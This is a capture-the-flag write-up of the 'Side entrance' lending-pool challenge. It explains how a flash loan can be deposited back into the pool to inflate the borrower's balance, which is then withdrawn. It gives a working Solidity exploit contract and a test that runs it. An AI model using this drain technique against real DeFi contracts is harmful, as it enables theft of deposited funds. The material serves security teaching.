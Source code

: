 # Challenge #4 - Side entrance
 A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

 This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

 You must take all ETH from the lending pool. 

## Exploit 
In this challenge we can increase the amount of our balance in pool executing a 
flashloan and making a deposit with that money. This way, we increase our ``balance`` 
without really using any of our ETH and we can withdraw that to the attacker's account 
later.  

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ILendingPool {
	function deposit() external payable;
	function withdraw() external;
	function flashLoan(uint256 amount) external;
}

contract Exploit {
	address attacker;
	ILendingPool pool;
	event Received(address, uint);

	function exec(address _contract) external {
		attacker = msg.sender;
		pool = ILendingPool(_contract);
		pool.flashLoan(1000 ether);
	}

	function withdraw() external {
		pool.withdraw();
		payable(attacker).transfer(address(this).balance);	
	}

	fallback() external payable {
		pool.deposit{value: msg.value}();
	}
	receive() external payable {
		emit Received(msg.sender, msg.value);
	}
}
```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		await this.exploit.exec(this.pool.address);
		await this.exploit.withdraw();
    });
```
